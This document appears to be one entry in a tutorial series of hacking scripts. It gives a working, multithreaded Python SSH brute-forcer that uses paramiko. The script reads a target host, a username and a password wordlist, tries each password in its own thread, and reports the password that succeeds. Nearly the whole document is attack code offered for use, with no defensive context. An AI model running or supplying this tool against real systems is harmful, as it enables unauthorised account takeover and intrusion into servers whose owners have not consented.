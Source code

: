## 08 - Threaded SSH Brute-forcer

- try to connect to a SSH account by brute-forcing passwords

### Code 

```
#!/usr/bin/env python

# threaded_ssh_bruteforcer

import paramiko, sys, os, termcolor
import threading, time 

stop_flag = 0

def ssh_connect(password, code=0):
	global stop_flag
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	try:
		ssh.connect(host, port=22, username=username, password=password)
		stop_flag = 1
		print(termcolor.colored(('[+] Found Password: ' + password + ', for Username: ' + username), 'green')
	except:
		print(termcolor.colored(('[-] Incorrect Password: ' + password), 'red')
	ssh.close()

host = input('[+] Target Address: ')
username = input('[+] SSH Username: ')
input_file = input('[+] Password File: ')
print('\n')

if os.path.exists(input_file) == False:
	print('File/Path doesn't exist')
	sys.exit(1)
	
with open(input_file, 'r') as file:
	for line in file.readlines():
		if stop_flag == 1:
			t.join()
			exit()
		password = line.strip()
		t = threading.Thread(target=ssh_connect, args=(password,))
		t.start()
		time.sleep(0.5)
```

---
